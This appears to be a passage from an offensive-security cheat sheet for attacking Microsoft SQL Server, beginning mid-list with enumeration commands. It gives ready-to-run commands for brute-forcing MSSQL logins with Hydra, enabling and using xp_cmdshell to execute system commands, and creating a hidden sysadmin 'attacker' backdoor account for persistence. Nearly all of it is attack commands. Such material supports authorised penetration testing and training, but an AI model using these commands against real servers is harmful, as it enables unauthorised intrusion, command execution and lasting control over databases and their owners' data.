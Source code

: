 - **MSSQLClient.py (Impacket)**:
  ```bash
  mssqlclient.py <domain>/<username>:<password>@<target_ip>
  ```
  Connect to the MSSQL server and interactively enumerate databases, users, and other information.

#### 1.4 Enumerate MSSQL Roles and Permissions
- **sqlcmd (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "SELECT dp.name, dp.type_desc, p.permission_name FROM sys.database_permissions AS p JOIN sys.database_principals AS dp ON p.grantee_principal_id = dp.principal_id;"
  ```
  This command lists the roles and permissions assigned to users in the MSSQL databases.

- **CrackMapExec (CME)**:
  ```bash
  cme mssql <target_ip> -u <username> -p <password> --mssql-roles
  ```
  CME can also enumerate roles and permissions for the MSSQL server.

## 2. Initial Access

#### 2.1 MSSQL Brute Forcing
- **THC-Hydra**:
  ```bash
  hydra -L /path/to/usernames.txt -P /path/to/passwords.txt mssql://<target_ip>:1433
  ```
  Use THC-Hydra to brute force MSSQL credentials.

#### 2.2 Exploit XP_Cmdshell
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;"
  ```
  This enables `xp_cmdshell` on the MSSQL server, allowing for command execution.

- **CrackMapExec (CME)**:
  ```bash
  cme mssql <target_ip> -u <username> -p <password> --xp_cmdshell "whoami"
  ```
  Use CME to execute commands via `xp_cmdshell`.

## 3. Persistence

#### 3.1 Create Backdoor Account
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "CREATE LOGIN [attacker] WITH PASSWORD = 'P@ssw0rd'; CREATE USER [attacker] FOR LOGIN [attacker] WITH DEFAULT_SCHEMA=[dbo]; ALTER SERVER ROLE [sysadmin] ADD MEMBER [attacker];"
  ```
  Create a backdoor admin account on the MSSQL server for persistent access.

